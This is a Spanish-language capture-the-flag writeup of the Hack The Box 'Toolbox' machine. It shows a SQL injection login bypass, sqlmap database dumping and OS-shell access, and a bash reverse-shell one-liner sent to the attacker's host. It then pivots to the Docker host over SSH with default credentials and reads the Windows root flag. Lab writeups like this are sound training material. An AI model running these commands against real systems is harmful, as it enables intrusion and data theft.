








+++
author = "Andrés Del Cerro"
title = "Hack The Box: Toolbox Writeup | Easy"
date = "2024-08-24"
description = ""
tags = [
    "HackTheBox",
    "Toolbox",
    "Writeup",
    "Cybersecurity",
    "Penetration Testing",
    "CTF",
    "Reverse Shell",
    "Privilege Escalation",
    "RCE",
    "Exploit",
    "Linux",
    "Windows",
    "Container Pivoting",
    "Docker Breakout",
    "Docker",
    "SQLi",
    "SQL Injection",
    "Authentication Bypass",
    "HTTP Enumeration"
]

+++

# Hack The Box: Toolbox Writeup

Welcome to my detailed writeup of the easy difficulty machine **"Toolbox"** on Hack The Box. This writeup will cover the steps taken to achieve initial foothold and escalation to root.

# TCP Enumeration

```shell
rustscan -a 10.129.96.171 --ulimit 5000 -g
10.129.96.171 -> [21,22,135,139,443,445,5985,49668,49667,49669,49664,49666,49665]
```

```shell
nmap -p21,22,135,139,443,445,5985,49668,49667,49669,49664,49666,49665 -sCV 10.129.96.171 -oN allPorts
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-24 22:10 CEST
Nmap scan report for 10.129.96.171
Host is up (0.037s latency).

PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           FileZilla ftpd
| ftp-syst: 
|_  SYST: UNIX emulated by FileZilla
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-r-xr-xr-x 1 ftp ftp      242520560 Feb 18  2020 docker-toolbox.exe
22/tcp    open  ssh           OpenSSH for_Windows_7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 5b:1a:a1:81:99:ea:f7:96:02:19:2e:6e:97:04:5a:3f (RSA)
|   256 a2:4b:5a:c7:0f:f3:99:a1:3a:ca:7d:54:28:76:b2:dd (ECDSA)
|_  256 ea:08:96:60:23:e2:f4:4f:8d:05:b3:18:41:35:23:39 (ED25519)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
443/tcp   open  ssl/http      Apache httpd 2.4.38 ((Debian))
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=admin.megalogistic.com/organizationName=MegaLogistic Ltd/stateOrProvinceName=Some-State/countryName=GR
| Not valid before: 2020-02-18T17:45:56
|_Not valid after:  2021-02-17T17:45:56
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: MegaLogistics
| tls-alpn: 
|_  http/1.1
445/tcp   open  microsoft-ds?
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -1h59m59s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-08-24T18:11:36
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 64.21 seconds
```
# UDP Enumeration

```shell
sudo nmap --top-ports 1500 -sU --min-rate 5000 -n -Pn 10.129.96.171 -oN allPorts.UDP
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-24 22:03 CEST
Nmap scan report for 10.129.96.171
Host is up (0.035s latency).
Not shown: 1499 open|filtered udp ports (no-response)
PORT      STATE  SERVICE
26994/udp closed unknown

Nmap done: 1 IP address (1 host up) scanned in 1.04 seconds
```

# FTP Enumeration
Encontramos un instalador de docker.


Este instalador nos da una pista de que quizás existan contenedores por detrás.

Me interesa saber la versión para buscar vulnerabilidades asociadas, para ello podemos calcular el hash MD5.
```shell
md5sum docker-toolbox.exe 
c5312c5b4b4df67a0628c3df8929f1f8  docker-toolbox.exe
```

Y podemos buscar este hash en VirusTotal para revelar la versión del instalador.


No encontré nada asociado.

# HTTPS Enumeration
Con el escaneo inicial encontramos el dominio `megalogistic.com` y el subdominio `admin.megalogistic.com`, agregamos esta información al `/etc/hosts`

Podemos inspeccionar el certificado TLS.
```shell
openssl s_client -showcerts -connect 10.129.96.171:443
```

Encontramos un correo `admin@megalogistic.com`

## megalogistic.com

```shell
whatweb https://megalogistic.com
https://megalogistic.com [200 OK] Apache[2.4.38], Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[Debian Linux][Apache/2.4.38 (Debian)], IP[10.129.96.171], JQuery[3.3.1], Script, Title[MegaLogistics]
```

No nos reporta nada interesante `whatweb`

El sitio web se ve así, muy estático y sin nada relevante.


## admin.megalogistic.com -> SQL Injection
```shell
whatweb https://admin.megalogistic.com/
https://admin.megalogistic.com/ [200 OK] Apache[2.4.38], Cookies[PHPSESSID], Country[RESERVED][ZZ], HTTPServer[Debian Linux][Apache/2.4.38 (Debian)], IP[10.129.96.171], PHP[7.3.14], PasswordField[password], Title[Administrator Login], X-Powered-By[PHP/7.3.14]
```

Lo único relevante que `whatweb` nos reporta es que se utiliza PHP por detrás.

El sitio se ve así, un panel de inicio de sesión.


Si ponemos una `'`


Con una simple inyección SQL podernos saltarnos el panel de autenticación.




Vemos la nota en el panel de administración
- Send credentials to Tony
- Update Printer Drivers

Esto nos podría servir mas adelante.

Encontramos un panel con correos electrónicos, no se si me servirán para mas add



Podemos copiar todo y solo quedarnos con los correos
```shell
cat users.txt | grep @ | sponge users.txt
┌─[192.168.1.52]─[pointedsec@parrot]─[~/Desktop/toolbox/content]
└──╼ [★]$ cat users.txt 
builders@megacorp.com
info@pix.com
orders@drapes.com
drake@sounds.com
track@accord.com
makers@blocks.com
evy@royal.com
delivery@game.com
info@vroom.com
```

Después de enumerar un rato el panel (tampoco hay mucho) no encontré nada, así que vamos a probar a abusar de la SQLi a ver si encontramos mas información relevante.

# Abusing SQL Injection

Podemos utilizar `sqlmap` para abusar de esta inyección.
```shell
sqlmap -u https://admin.megalogistic.com/ --data="username=*&password=blablalba" --level 5 --risk 3 --batch --dbs

....
available databases [3]:
[*] information_schema
[*] pg_catalog
[*] public
```

La base de datos `public` contiene una tabla `users`
```shell
sqlmap -u https://admin.megalogistic.com/ --data="username=*&password=blablalba" --level 5 --risk 3 --batch -D public --tables

.....
Database: public
[1 table]
+-------+
| users |
+-------+
```

Vemos un hash MD5 del usuario `admin` pero no conseguí crackearlo ni con `john` ni con `hashcat`
```shell
sqlmap -u https://admin.megalogistic.com/ --data="username=*&password=blablalba" --level 5 --risk 3 --batch -D public -T users --dump

.....
+----------------------------------+----------+
| password                         | username |
+----------------------------------+----------+
| 4a100a85cb5ca3616dcf137918550815 | admin    |
+----------------------------------+----------+
```

## Command Execution through SQL Injection -> Foothold
Inocentemente probé con el parámetro `--os-shell` que intenta ejecutar código en el sistema.

```shell
sqlmap -u https://admin.megalogistic.com/ --data="username=*&password=blablalba" --level 5 --risk 3 --os-shell --batch

....
os-shell> whoami
do you want to retrieve the command standard output? [Y/n/a] Y
[23:00:52] [INFO] retrieved: 'postgres'
command standard output: 'postgres'
```

Y vemos que conseguimos ejecución de comandos

Nos mandamos una revshell para trabajar mas cómodamente
```shell
os-shell> bash -c "bash -i >& /dev/tcp/10.10.14.76/443 0>&1"
```



Detectamos que estamos en un contenedor.
```shell
(remote) postgres@bc56e3cc55e9:/var/lib/postgresql/11/main$ ip a
bash: ip: command not found
(remote) postgres@bc56e3cc55e9:/var/lib/postgresql/11/main$ hostname -I
172.17.0.2
```

Como es una máquina fácil, fui a lo obvio e intente recuperar las credenciales de acceso a la base de datos por si se reutilizan estas credenciales.

```php
$conn = pg_connect("host=localhost port=5432 dbname=test user=postgres password=password");
```
Pero no tiene pinta...

Por la cara me encontré la flag de usuario
```shell
(remote) postgres@bc56e3cc55e9:/var/lib/postgresql$ cat user.txt 
f0183e44378ea... flag.txt
```

## Container Pivoting
Este contenedor no tenía `ping` instalado
Así que probando si conseguía detectar si algún estaba abierto en la dirección `172.17.0.1` que suele ser la máquina anfitriona..

```shell
(remote) postgres@bc56e3cc55e9:/var/lib/postgresql$ ping 172.17.0.1
bash: ping: command not found
```

```shell
(remote) postgres@bc56e3cc55e9:/var/lib/postgresql$ echo "" > /dev/tcp/172.17.0.1/5985 
bash: connect: Connection refused
bash: /dev/tcp/172.17.0.1/5985: Connection refused
(remote) postgres@bc56e3cc55e9:/var/lib/postgresql$ echo "" > /dev/tcp/172.17.0.1/49664
bash: connect: Connection refused
bash: /dev/tcp/172.17.0.1/49664: Connection refused
(remote) postgres@bc56e3cc55e9:/var/lib/postgresql$ echo "" > /dev/tcp/172.17.0.1/22
```

Detecté que el puerto 22 está abierto.

Al buscar `Docker Toolbox SSH` me encontré [este post en StackOverFlow](https://stackoverflow.com/questions/32027403/docker-toolbox-ssh-login)

```shell
(remote) postgres@bc56e3cc55e9:/var/lib/postgresql/11/main$ ssh docker@172.17.0.1
docker@172.17.0.1's password: 
   ( '>')
  /) TC (\   Core is distributed with ABSOLUTELY NO WARRANTY.
 (/-_--_-\)           www.tinycorelinux.net

docker@box:~$ id
uid=1000(docker) gid=50(staff) groups=50(staff),100(docker)
docker@box:~$ ip a                                                                       
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 08:00:27:f2:5e:be brd ff:ff:ff:ff:ff:ff
    inet 10.0.2.15/24 brd 10.0.2.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::a00:27ff:fef2:5ebe/64 scope link 
       valid_lft forever preferred_lft forever
3: eth1: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 08:00:27:2c:6d:87 brd ff:ff:ff:ff:ff:ff
    inet 192.168.99.100/24 brd 192.168.99.255 scope global eth1
       valid_lft forever preferred_lft forever
    inet6 fe80::a00:27ff:fe2c:6d87/64 scope link 
       valid_lft forever preferred_lft forever
4: sit0@NONE: <NOARP> mtu 1480 qdisc noop state DOWN group default qlen 1000
    link/sit 0.0.0.0 brd 0.0.0.0
5: docker0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:45:ec:6e:91 brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
       valid_lft forever preferred_lft forever
    inet6 fe80::42:45ff:feec:6e91/64 scope link 
       valid_lft forever preferred_lft forever
7: veth6cda6c0@if6: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue master docker0 state UP group default 
    link/ether 6a:bf:73:37:1b:6d brd ff:ff:ff:ff:ff:ff
    inet6 fe80::68bf:73ff:fe37:1b6d/64 scope link 
       valid_lft forever preferred_lft forever
```

Y ganamos acceso a otro contenedor.

Tenemos permiso para ejecutar cualquier usuario como `root`
```shell
docker@box:~$ sudo -l                                                                    
User docker may run the following commands on this host:
    (root) NOPASSWD: ALL
docker@box:~$ sudo su                                                                    
root@box:/home/docker#
```

Enumerando el sistema encontramos un directorio `c` en la raíz del sistema.
```shell
root@box:/# ls -la                                                                       
total 244
drwxr-xr-x   17 root     root           440 Aug 24 18:05 .
drwxr-xr-x   17 root     root           440 Aug 24 18:05 ..
drwxr-xr-x    2 root     root          1420 Aug 24 18:03 bin
drwxr-xr-x    3 root     root            60 Aug 24 18:05 c
drwxrwxr-x   14 root     staff         4340 Aug 24 18:03 dev
drwxr-xr-x    9 root     root          1000 Aug 24 18:05 etc
drwxrwxr-x    4 root     staff           80 Aug 24 18:03 home
-rwxr-xr-x    1 root     root           496 Oct 19  2019 init
drwxr-xr-x    4 root     root           800 Aug 24 18:02 lib
lrwxrwxrwx    1 root     root             3 Aug 24 18:02 lib64 -> lib
lrwxrwxrwx    1 root     root            11 Aug 24 18:02 linuxrc -> bin/busybox
drwxr-xr-x    4 root     root            80 Aug 24 18:02 mnt
drwxrwsr-x    3 root     staff          180 Aug 24 18:05 opt
dr-xr-xr-x  163 root     root             0 Aug 24 18:02 proc
drwxrwxr-x    2 root     staff           80 Aug 24 18:03 root
drwxrwxr-x    6 root     staff          140 Aug 24 18:05 run
drwxr-xr-x    2 root     root          1300 Aug 24 18:03 sbin
-rw-r--r--    1 root     root        241842 Oct 19  2019 squashfs.tgz
dr-xr-xr-x   13 root     root             0 Aug 24 18:03 sys
lrwxrwxrwx    1 root     root            13 Aug 24 18:02 tmp -> /mnt/sda1/tmp
drwxr-xr-x    7 root     root           140 Aug 24 18:03 usr
drwxrwxr-x    8 root     staff          180 Aug 24 18:03 var
```

Y esto parece un sistema de ficheros de Windows...
```shell
root@box:/c/Users# ls                                                                    
Administrator  Default        Public         desktop.ini
All Users      Default User   Tony

```

Y como tenemos acceso a todo el sistema de ficheros sin restricciones porque en el contenedor somo `root` podemos leer la flag de `root`
```shell
root@box:/c/Users/Administrator/Desktop# cat root.txt                                    
cc9a0b76ac17f8f...
```

¡Y ya estaría!

Happy Hacking! 🚀